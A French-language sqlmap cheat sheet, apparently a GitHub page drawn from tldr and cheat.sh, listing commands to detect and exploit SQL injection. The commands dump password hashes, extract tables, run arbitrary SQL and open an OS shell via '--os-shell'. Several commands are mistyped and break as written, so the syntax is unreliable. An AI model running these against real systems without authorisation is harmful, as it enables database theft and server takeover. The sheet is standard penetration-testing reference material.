 ﻿# SQLMAP
## COUCHE 7


### usurpation
### Escalade de privilège
### Dégradation de privilèges
### Divulgation des informations chiffrées
### Observation

#### ATTAQUE = SQL INJECTION
##### CONFIDENTIALITE
##### INTEGRITE
##### DISPONIBILITE

Description : sqlmap est un outil de test de pénétration open source qui automatise le processus de détection et d'exploitation des failles d'injection SQL et de prise de contrôle des serveurs de bases de données. Il est doté d'un puissant moteur de détection, de nombreuses fonctionnalités de niche pour le testeur de pénétration ultime et d'une large gamme de commutateurs allant de l'empreinte digitale de la base de données à la récupération de données à partir de la base de données, en passant par l'accès au système de fichiers sous-jacent et l'exécution de commandes sur le système d'exploitation via des connexions hors bande

Source : https://sqlmap.org/
https://cheat.sh/sqlmap


# Testez l'URL et les données POST et renvoyez la bannière de la base de données (si possible)

```
./sqlmap.py --url = "<url>" --data = "<post-data>" --banner  
```
# Analyser les données de la requête et tester | les données de la requête peuvent être obtenues avec burp

```
./sqlmap.py-r<request-file><options>   
```
# Empreinte digitale | beaucoup plus d'informations que la bannière
```
./sqlmap.py-r<request-file>--fingerprint   
```
# Vérifiez si l'utilisateur est un administrateur de base de données
```
 ./sqlmap.py-r<request-file>--is-dba
```   

# Obtenir les utilisateurs de la base de données et les hachages de mot de passe
```
 ./sqlmap.py-r<request-file>--users –passwords
```    

# Énumérer les bases de données
```
 ./sqlmap.py-r<request-file>--dbs
```   

# Lister les tables pour une base de données
```
 ./sqlmap.py-r<request-file>-D < db-name> --tables
```     

# Autres commandes de base de données
```
 ./sqlmap.py-r<request-file>-D<db-name>--columns --schema –count
``` 
# Drapeaux d'énumération 
```
./sqlmap.py-r<request-file>-D<db-name>-T < table-name> -C < col-name> -U < user-name>
```                                           
# Extraire les données
```
 ./sqlmap.py-r<fichier-requête>-D<nom-base-de-données>-T<nom-table>-C<nom-colonne>--dump
```         

# Exécuter la requête SQL
```
 ./sqlmap.py-r<fichier-requête>--sql-query="<requête-sql>"
```   

# Ajouter/précéder des requêtes SQL
```
 ./sqlmap.py-r<request-file>--prefix="<sql-query>" --suffix = "<sql-query>"  
```  

# Obtenir un accès backdoor au serveur SQL | peut donner accès au shell
```
 ./sqlmap.py-r<request-file>--os-shell 
```
tldr:sqlmap

# sqlmap
# Détecter et exploiter les failles d'injection SQL.
# Plus d'informations : <https://sqlmap.org>.

# Exécutez sqlmap sur une seule URL cible :
``` 
python sqlmap.py -u "http://www.target.com/vuln.php?id=1"   
```

# Envoyer des données dans une requête POST (`--data` implique une requête POST) :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php" --data = "id=1"
```    

# Modifiez le délimiteur de paramètres (& est la valeur par défaut) :
``` 
pythonsqlmap.py-u"http://www.target.com/vuln.php"--data="query=foobar;id=1" --param-del = ";"
```
      
# Sélectionnez un `User-Agent` aléatoire dans `./txt/user-agents.txt` et utilisez-le :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php"--random-agent    
```
# Fournir les informations d'identification de l'utilisateur pour l'authentification du protocole HTTP :
```
 pythonsqlmap.py-u"http://www.target.com/vuln.php"--auth-type Basic --auth-cred "testuser:testpass"
```

